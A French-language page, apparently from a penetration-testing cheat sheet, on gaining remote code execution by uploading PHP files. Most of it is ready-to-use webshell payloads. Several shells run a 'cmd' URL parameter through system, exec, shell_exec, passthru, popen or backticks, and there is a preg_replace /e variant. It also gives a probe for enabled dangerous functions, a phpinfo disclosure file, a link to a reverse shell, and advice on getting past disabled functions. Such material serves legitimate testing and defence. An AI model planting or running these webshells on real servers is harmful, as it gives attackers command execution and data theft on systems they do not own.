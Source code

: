 # PHP

![](logo.png)

**Facteur de risque** : RCE via webshell, Information DIsclosure

**Extension** : `.php`, `.php3`, `.php4`, `.php5`, `.php7`, `.phar`, `.phps`, `php-s`, `.phpt`, `.pht`, `.phtm`, `.phtml`, `.inc`

**Description** : **PHP: Hypertext Preprocessor**, plus connu sous son sigle **PHP**, est un "langage de programmation" libre, principalement utilisé pour produire des pages Web dynamiques via un serveur HTTP (*Apache, lighttpd, nginx...*).

## Sommaire

- Remote Code Execution

- Information Disclosure

## Remote Code Execution

PHP possède plusieurs fonctions qui permettent d'exécuter des commandes : `system`, `exec`, `shell_exec`, `passthru`,`popen`, `proc_open`, et l'utilisation de backticks. Certaines de ces fonctions peuvent être désactivés pour des raisons de sécurités. Essayez dans ce cas les autres fonctions, au cas où s'ils ont oublié.

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le serveur doit supporter le PHP

- Les fonctions d'exécution en PHP doivent être activés

- Les fichiers stockés doivent être exécutés via PHP (même pour les images)
  
  - Impossible de nos jours. La configuration par défaut de PHP consiste à exécuter l'interpréteur PHP uniquement pour les fichiers .php, à l'aide de NGinx, Apache, Lighttpd etc...

### Payload

#### system

```php
<?php
echo "<pre>";
system($_GET['cmd']);
echo "</pre>";
?>
```

La fonction `system` accepte la commande comme paramètre de la fonction, puis affiche le résultat.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

Prends l'entrée de la commande dans l'URL : example.com/system.php?cmd=whoami

#### exec

```php
<?php
exec($_GET['cmd'], $array);
echo "<pre>";
print_r($array);
echo "</pre>";
?>
```

La fonction `exec` accepte la commande comme paramètre de la fonction, mais n'affiche pas de sortie. Il faut spécifier un deuxième paramètre (ici `$array`) pour avoir le résultat sous forme de tableau. Puis `print_r` est utilisé pour afficher le résultat.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### shell\_exec

```php
<?php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>"
?>
```

La fonction `shell_exec` accepte la commande comme paramètre de la fonction, et retourne le résultat sous forme ce chaîne. Puis `echo` est utilisé pour afficher le résultat.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### passthru

```php
<?php
passthru($_GET['cmd']);
?>
```

La fonction `passthru` accepte la commande comme paramètre de la fonction, et affiche le résultat brut.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### popen

```php
<?php
$handle = popen($_GET['cmd'],'r');
echo "<pre>".fread($handle,4096)."</pre>";
pclose($handle);
?>
```

La fonction `popen` crée un processus, qui est terminé avec `pclose`.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### Backticks `

```php
<?php
$output = `$_GET['cmd']`;
echo "<pre>$output</pre>";
?>
```

PHP exécute le contenu entre backticks comme des commandes. Puis le résultat est affiché avec `echo`, avec les balises `<pre>` pour garder le résultat préformaté.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### proc_open

La fonction `proc_open` est plus complexe à utiliser. Elle est utilisé dans le reverse shell de  pentestmonkey.net : http://pentestmonkey.net/tools/php-reverse-shell .

Ce script est conçu pour les situations où, lors d'un test d'intrusion, une fonction de téléversement de fichiers existe, et que le serveur web qui exécute le PHP.

Exécutez le fichier en accédant à son URL. Le script ouvrira une connexion TCP du serveur web vers un hôte et un port de votre choix.

Si, pour une raison ou une autre, le webshell ne fonctionne pas, nous pouvons passer aux commandes à l'ancienne comme system, exec, shell\_exec, passthru... etc. 

### Quels fonctions sont activés ?

Le code PHP suivant permet de déterminer les fonctions dangereuses autorisés :

```php
<?php
echo "<pre>";
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
echo "</pre>";
?>
```

D'autres webshells sont disponibles dans votre Kali Linux : /usr/share/webshells/PHP

#### preg\_replace

```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

## Information Disclosure

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le serveur supporte le PHP

### Payload

La fonction `phpinfo` affiche de nombreuses informations sur la configuration de PHP, ce qui constitue une divulgation d'information.

**phpinfo.php**

```php
<?php
phpinfo();
?>
```

## References

[Web Shells 101 Using PHP (Web Shells Part 2) | Acunetix](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)

[PHP: popen - Manual](https://www.php.net/manual/en/function.popen.php)

https://www.dynamicciso.com/web-shells-in-php-detection-and-prevention-part-1/

[security - Exploitable PHP functions - Stack Overflow](https://stackoverflow.com/questions/3115559/exploitable-php-functions)

[[Résolu] Fonctions PHP plus exploitables | php | Prograide.com](https://prograide.com/pregunta/2693/fonctions-php-plus-exploitables)

[php-reverse-shell | pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

[Webshell &#xB7; Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html)

## Todo

- Vérifier les fonctions définies en PHP
- Faire un webshell avec proc\_open, pcntl\_exec ou eval(), preg\_match() avec le flag /e, show\_source, asser() (
  
  ```
  <?php @CENSORED($_POST['password']);?>)
  ```
- Ajouter les différents payloads avec les diférents extentsions de PHP
- Vérifier qu'un paramètre est présent
- 
